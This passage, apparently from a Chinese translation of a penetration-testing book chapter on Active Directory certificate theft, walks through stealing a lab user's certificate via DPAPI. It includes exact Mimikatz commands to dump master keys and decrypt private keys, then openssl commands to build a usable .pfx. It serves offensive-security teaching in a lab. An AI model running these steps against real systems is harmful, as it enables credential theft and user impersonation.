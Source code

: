 图 8.2 – khal.drogo 的证书导出成功

检测此攻击的唯一方法是当需要 CNG 补丁修复并且对`lsass.exe`的访问正在被监控时。

## THEFT2 – 通过 DPAPI 盗取用户证书

DPAPI 是 Windows 组件，允许应用程序存储敏感数据。此数据由主密钥保护，主密钥通过应用 PBKDF2 函数从用户的密码哈希、SID 和盐值推导而来。证书存储在 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\SystemCertificates` 注册表键或 `%APPDATA%\Microsoft\systemcertificates\my\certificates` 文件夹中。关联的私钥存储在 `%APPDATA%\Microsoft\Crypto\RSA\User SID`（对于 CAPI 密钥）和 `%APPDATA%\Microsoft\Crypto\keys`（对于 CNG 密钥）中。小提醒：即使启用隐藏文件，也无法在文件夹中看到密钥。要查看这些文件夹的内容，请使用 `dir** /**a:s` 命令行。要解密证书的私钥，我们需要相应的主密钥。有几种方法可以获取主密钥，但其中三种方法需要提升的权限：

+   从域控制器备份密钥 (**lsadump::backupkeys**)

+   DPAPI 缓存的主密钥 (**sekurlsa::dpapi**)

+   `DPAPI_SYSTEM` 密钥 (**lsadump::secrets**)

+   通过提供用户的哈希值或密码

以下 Mimikatz 命令将允许您以 `.der` 格式转储证书，找出主密钥的 `guidMasterKey` 值，解密主密钥，最后解密证书的私钥：

```
crypto::system /file:C:\users\khal.drogo\appdata\roaming\microsoft\systemcertificates\my\certificates\C7889A4CBF0B4F10CA29347D81327DC6CED9ED95 /export
dpapi::capi /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2801885930-3847104905-347266793-1112\d2d039eb9fe8cf2dd19f701b6f890220_9d1ba1ca-81ea-41ad-bc71-414af8de5013
dpapi::masterkey /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Protect\S-1-5-21-2801885930-3847104905-347266793-1112\6e1524df-7d72-4b90-a95f-72341d79449f /rpc
dpapi::capi /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2801885930-3847104905-347266793-1112\d2d039eb9fe8cf2dd19f701b6f890220_9d1ba1ca-81ea-41ad-bc71-414af8de5013 /masterkey:5401985c1aa5a8ae1f25a9f08beaa53f4b6ad98e
```

在 Linux 机器上借助 `openssl`，我们可以构建有效的 `.****pfx` 文件：

```
openssl x509 -inform DER -outform PEM -in C7889A4CBF0B4F10CA29347D81327DC6CED9ED95.der -out public.pem
openssl rsa -inform PVK -outform PEM -in dpapi_exchange_capi_0_te-User-d700e753-1b10-45c7-aa92-b8a8ffe7493d.keyx.rsa.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:12345 -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out drogo_cert.pfx
```

前述命令的结果如下图所示：

![图 8.3 – 成功为 khal.drogo 构建 .pfx 证书](img/B18964_08_03.jpg)

图 8.3 – 成功为 khal.drogo 构建 .pfx 证书
